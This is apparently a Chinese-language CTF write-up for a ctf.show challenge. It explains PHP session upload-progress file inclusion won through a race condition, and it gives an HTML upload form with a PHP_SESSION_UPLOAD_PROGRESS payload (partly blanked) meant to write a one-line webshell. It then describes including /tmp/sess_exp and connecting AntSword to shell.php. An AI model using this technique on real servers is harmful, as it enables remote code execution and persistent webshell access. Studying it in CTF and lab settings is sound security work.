



首先代码审计，发现基本都被过滤了，但是这里可以利用 session 对话进行文件包含，通过条件竞争实现



原理：我们在Cookie里设置 PHPSESSID=test,php，HP 将会在服务器上创建一个文件：/tmp/sess_test，但是对于默认配置 session.upload_progress.cleanup = on，文件上传后 session 文件内容会立即被清空，我们需要通过条件竞争，在服务器还未来得及删除我们上传的session 文件内容前，成功访问包含到该文件，实现恶意代码的命令执行。

---

首先用html写一个文件上传框

```
<!DOCTYPE html>
<html>
<body>
<form action="http://79cfbdc5-5bf6-48ff-b2ef-24c4535dc377.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php                                                     ?>');?>" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
<?php
session_start();
?>
```

其中value=“xxx” 其实就是我们的 payload，这里我们写上能生成一句话木马文件的代码`<?php                                                     ?>');?>`，而action="xxx"，即我们题目地址

打开页面，随便上传一个文件



抓包之后放到攻击模块，然后在Cookie：添加PHPSESSID=exp（自定义），如果没有Cookie自行添加



接下来就是条件竞争的常规操作，无payload上传攻击和访问攻击

访问攻击地址为：

```
?file=/tmp/sess_exp
```

因为Cookie 里设置了 PHPSESSID=exp，PHP 将会在服务器上创建一个文件：/tmp/sess_exp。

经过条件竞争当我们成功访问到该文件后，就会将该文件包含，竞争成功写入一句话木马

然后用蚁剑连接shell.php即可，密码为1

得到flag
